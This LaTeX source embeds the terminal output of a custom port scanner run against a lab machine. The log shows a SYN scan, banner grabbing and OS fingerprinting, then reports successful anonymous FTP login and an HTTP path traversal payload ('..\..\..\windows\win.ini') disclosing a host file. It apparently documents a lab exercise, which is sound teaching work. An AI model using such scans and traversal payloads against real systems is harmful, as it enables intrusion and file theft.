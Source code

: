 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{terminalbox}
\begin{verbatim}
=============================================================
  CUSTOM PORT SCANNER: ATTACK TOOLKIT
=============================================================
  Target       : 192.168.0.116
  Attacker     : 192.168.0.105 (a0:29:42:92:ef:19)
  Target MAC   : d8:5e:d3:99:09:6c
  Ports        : [21, 22, 80, 81]
  Scan delay   : 0.5s

  [PHASE 1] TCP SYN Port Scanning
  -----------------------------------------------------------
     21  OPEN                           TTL=128 WIN=65535
     22  CLOSED                         TTL=128 WIN=0
     80  OPEN                           TTL=128 WIN=65535
     81  CLOSED                         TTL=128 WIN=0

  [PHASE 2] Service Banner Grabbing
  -----------------------------------------------------------
  [+]  21  FTP   -> LabFTP Server (Vulnerable Demo) Ready
  [+]  80  HTTP  -> VulnHTTP/1.0 (Lab Demo)

  [PHASE 3] OS Fingerprinting
  -----------------------------------------------------------
  Candidate  : Open-Port TCP SYN/ACK
  Likely OS  : Windows
  Confidence : 60%
  Version    : Windows 10 / 11 / Server 2016+
                71%  Windows 10 / 11 / Server 2016+
                29%  Windows 7 / 8 / Vista / Server 2008-2012
                 0%  Windows 9x / 2000 (legacy)
  TTL        : 128 (initial 128, ~0 hop(s))
  Window     : 65535
  DF bit     : set
  IP ID      : 60211
  Options    : ('MSS', 1460), ('NOP',), ('WSCALE', 8),
               ('SACK_PERMITTED',), ('TIMESTAMP', ...)
  Probability:
    Windows           60%  ############
    macOS / BSD       21%  ####
    Linux             19%  ###
    Network device     0%
  Evidence   :
    - initial TTL 128 (~128 observed, 0 hop(s)) matches Windows
    - TCP window 65535 matches Windows, Linux, macOS / BSD
    - Don't-Fragment (DF) bit set - modern TCP stack
    - TCP option order ['MSS', 'WSCALE', 'SACK_PERMITTED', 'TIMESTAMP']
      matches Windows layout
    - IP ID is non-zero (60211) with DF set (Windows/BSD characteristic)

  [PHASE 5] Targeted Exploit Execution
  -----------------------------------------------------------
  [EXPLOIT 1] FTP Anonymous Authentication (Port 21)
  Status     : SUCCESS (Authenticated as anonymous:guest)
  Directory  : 257 "/" | Files: drwxr-xr-x 1 ftp ftp 0 pub

  [EXPLOIT 2] HTTP Directory Path Traversal (Port 80)
  Status     : SUCCESS (Payload: ..\..\..\windows\win.ini)
  Payloads   : 12 attempted, 8 successful variations
  Disclosed  : [fonts] Arial=arial.ttf (arbitrary host file read)

=============================================================
  ATTACK SUMMARY
=============================================================
  Ports scanned : 4 | Open: 2 | Closed: 2
  Banners found : 2/2 | OS guess: Windows (60%)
  Exploits      : 2/2 successful (FTP Anonymous + HTTP Traversal)
=============================================================
\end{verbatim}
\end{terminalbox}
\end{document}
